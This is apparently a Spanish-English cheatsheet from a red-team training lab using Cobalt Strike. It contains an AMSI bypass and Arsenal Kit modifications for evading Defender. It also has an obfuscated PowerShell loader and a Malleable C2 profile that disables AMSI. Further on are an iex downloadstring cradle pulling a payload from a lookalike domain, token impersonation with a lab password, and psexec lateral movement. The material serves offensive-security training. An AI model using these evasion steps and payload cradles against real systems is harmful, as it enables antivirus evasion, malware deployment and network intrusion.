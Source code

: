 
# IDIOMA

- Cheatsheet extra:
https://github.com/An0nUD4Y/CRTO-Notes/blob/main/CRTO%20-%20Cheatsheet.md#forest--domain-trusts


- Cambiar teclado a español:

```powershell
$LangList = Get-WinUserLanguageList
$LangList.Add("es-ES")
Set-WinUserLanguageList $LangList -Force
```
> Vamos a language settings(escribes "**la**" en windows) y seleccionas español.



# EVASION

## AMSI BYPASS, lanzarlos por separado.
```powershell
#Comando 1
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static')

#Comando 2
$a.SetValue($null,$true)
```

## Artifacts

1. Launch Visual Studio Code.
2. Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\arsenal-kit\kits\artifact_.
3. Navigate to _src-common_ and open _patch.c_.
4. Scroll to line ~45 and modify the _for_ loop. This is for the svc exe payloads

```c
x = length;
while(x--) {
  *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

5. Scroll to line ~116 and modify the other _for_ loop. This is for the normal exe payloads.
```c
int x = length;
while(x--) {
  *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

6. Save the changes (**File > Save**) and close the folder (**File > Close Folder**).
7. On the Windows taskbar, right-click on the Terminal icon launch Ubuntu.
8. Change the working directory.
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
```
6. Run **build.sh** to build the new artifacts.
```bash
./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
```
6. Open the Cobalt Strike client and load **artifact.cna** from _C:\Tools\cobaltstrike\custom-artifacts\mailslot_.

## Resources

1. If not already open from the previous task, launch Ubuntu from the Windows Terminal.
2. Change the working directory.
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
```
3. Run **build.sh** to build new resources.
```bash
./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
```
4. If not already open from the previous task, launch Visual Studio Code.
5. Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\custom-resources_.
6. Select **template.x64.ps1**.
7. Rename the **func_get_proc_address** function on line 3 to **get_proc_address**.
8. Rename the **func_get_delegate_type** function on line 10 to **get_delegate_type**.
9. Scroll to line 32 and replace it with:

```powershell
$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
$ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)
```
10. Save the changes (**File > Save**).
11. Select **compress.ps1**.
12. Use Invoke-Obfuscation to create a unique obfuscated version, or try the following:

```powershell
SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
```
10. Save the changes (**File > Save**).
11. Open the Cobalt Strike client and load **resources.cna** from _C:\Tools\cobaltstrike\custom-resources_.

## Malleable C2

1. Open a new PowerShell window in Terminal.
2. SSH into the team server VM.
```bash
ssh attacker@10.0.0.5
Passw0rd!
```
3. Move into the profiles directory.
```bash
cd /opt/cobaltstrike/profiles
```
4. Open **default.profile** in a text editor (e.g. vim or nano).
5. Add the following stage block:
```c
stage {
   set userwx "false";
   set module_x64 "Hydrogen.dll";  # use a different module if you like
   set copy_pe_header "false";
}
```

6. Add the following post-ex block:
```c
post-ex {
  set amsi_disable "true";
  set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
  set obfuscate "true";
  set cleanup "true";

  transform-x64 {
      strrep "ReflectiveLoader" "NetlogonMain";
      strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";
      strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";

      # add any other transforms that you want
  }
}
```
7. Save the changes.
8. Restart the team server.
```bash
sudo /usr/bin/docker restart cobaltstrike-cs-1
```
If the container fails to restart properly use to see the profile errors:
```bash
sudo /usr/bin/docker logs cobaltstrike-cs-1
```

## Testing


1. Build new payloads
```powershell
Go to **Payloads > Windows Stageless Generate All Payloads**
Folder: C:\Payloads
```

2. Host a 64-bit PowerShell payload.
    1. Go to **Site Management > Host File**
    2. File: _C:\Payloads\http_x64.ps1_
    3. Local URI: /test
    4. Local Host: www.bleepincomputer.com
3. Switch to [Workstation 1](https://labclient.labondemand.com/Instructions/a28ce94c-f300-4fca-93fd-594ac13bc4e9#) and login with Passw0rd!.
4. Open a PowerShell window.
5. Verify that Defender's Real-Time Protection is enabled.
```powershell
(Get-MpPreference).DisableRealtimeMonitoring
```
> DisableRealtimeMonitoring should return as False.
6. Download and invoke the PowerShell payload.
```powershell
iex (new-object net.webclient).downloadstring("http://www.bleepincomputer.com/test")
```
7. Switch back to [Attacker Desktop](https://labclient.labondemand.com/Instructions/a28ce94c-f300-4fca-93fd-594ac13bc4e9#) and a new Beacon should be checking in.
8. From the new Beacon, impersonate a local admin to _lon-ws-1_.
```powershell
beacon> make_token CONTOSO\rsteel Passw0rd!
```
7. Verify that Defender's Real-Time Protection is enabled on the target.
```powershell
beacon> remote-exec winrm lon-ws-1 (Get-MpPreference).DisableRealtimeMonitoring
```
8. Change the spawnto for the service payload.
```powershell
beacon> ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```
9. Move laterally to _lon-ws-1_.
```powershell
beacon> jump psexec64 lon-ws-1 smb
```
